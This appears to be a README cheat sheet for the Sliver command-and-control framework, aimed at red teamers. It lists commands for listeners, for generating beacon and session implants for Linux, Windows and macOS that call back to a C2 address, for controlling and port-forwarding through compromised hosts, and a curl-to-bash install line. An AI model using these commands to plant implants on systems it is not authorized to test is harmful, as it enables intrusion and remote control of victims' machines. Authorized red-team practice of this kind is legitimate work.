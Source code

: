 # Sliver C2 Framework Cheat Sheet

## Overview

This repository contains a comprehensive cheat sheet for the **Sliver C2 Framework**, a powerful open-source Command and Control (C2) platform for penetration testers and red teamers. The goal of this cheat sheet is to provide quick reference commands and usage examples to streamline engagements and enhance operational efficiency.

## Table of Contents
- [Installation](#installation) 
- [Start](#start)
- [Listeners](#listeners) 
	- [View Active Listeners](#view-active-listeners)  
- [Implants](#implants) 
	- [Beacons](#beacons) 
		- [Beacon Implant Generation](#beacon-implant-generation) 
			- [Linux Implant](#linux-implant) 
			- [Windows](#windows) 
			- [MacOS](#macos) 
	- [Sessions](#sessions) 
		- [Session Implant Generation](#session-implant-generation) 
			- [Linux Implant](#linux-implant-1) 
			- [Windows](#windows-1) 
			- [MacOS](#macos-1)  
- [Implant Interaction](#implant-interaction) 
	- [Port Forwarding](#port-forwarding) 
- [Armory](#armory)
## Installation
```bash
curl https://sliver.sh/install | bash
```

Or Clone it Manually:
```bash
git clone https://github.com/BishopFox/sliver.git
cd sliver
go build
```
## Start
```bash
sliver
```
## Listeners
There are several listeners: mtls, http, https
```bash
mtls
```
```bash
http
```
```bash
https
```
### View Active Listeners
```
jobs
```
## Implants
### Beacons
- **Operation**: Beacons operate asynchronously, periodically checking in with the C2 server to retrieve tasks, execute them, and return results. This periodic communication helps minimize detection by reducing constant network activity.
    
- **Use Cases**: Ideal for maintaining a low-profile presence on the target system, suitable for scenarios where minimizing network traffic is crucial.
#### Beacon Implant Generation
##### Linux Implant
```bash
generate beacon --[mtls|http|https] <c2_Listener_IP>:443 --os linux --arch amd64 --format elf --save implant.elf
```
##### Windows
```bash
generate beacon --[mtls|http|https] <c2_Listener_IP>:443 --os windows --arch amd64 --format exe --save implant.exe
```
##### MacOS
```bash
generate beacon --[mtls|http|https] <c2_Listener_IP>:443 --os mac --arch arm64
```
### Sessions
- **Operation**: Sessions provide an interactive, real-time connection between the implant and the C2 server, allowing for immediate command execution and response.
    
- **Use Cases**: Suitable for tasks requiring direct interaction, such as running shell commands, port forwarding, or setting up SOCKS5 proxies.
#### Session Implant Generation
##### Linux Implant
```bash
generate --[mtls|http|https] <c2_Listener_IP>:443 --os linux --arch amd64 --format elf --save implant.elf
```
##### Windows
```bash
generate --[mtls|http|https] <c2_Listener_IP>:443 --os windows --arch amd64 --format exe --save implant.exe
```
##### MacOS
```bash
generate --[mtls|http|https] <c2_Listener_IP>:443 --os mac --arch arm64
```
## Implant Interaction
View all implants
```bash
implants
```
Interact with implants
```
use [implant ID]
```
Help for a list of available commands
```
help
```
Switch to an interactive Session
```
interactive
```
### Port Forwarding
```bash
portfwd --local 8080 --remote 3000
```
In this example:
- **`--local 8080`** → This refers to the local port on your **Kali machine** (where Sliver C2 is running).
- **`--remote 3000`** → This is the port on the **compromised machine (implant's system)** that you want to forward.
## Armory
The **Armory** in Sliver C2 is a package manager introduced in version 1.5 that allows users to install various third-party tools, such as Beacon Object Files (BOFs) and .NET utilities, enhancing the framework's capabilities.
```bash
armory install all
```

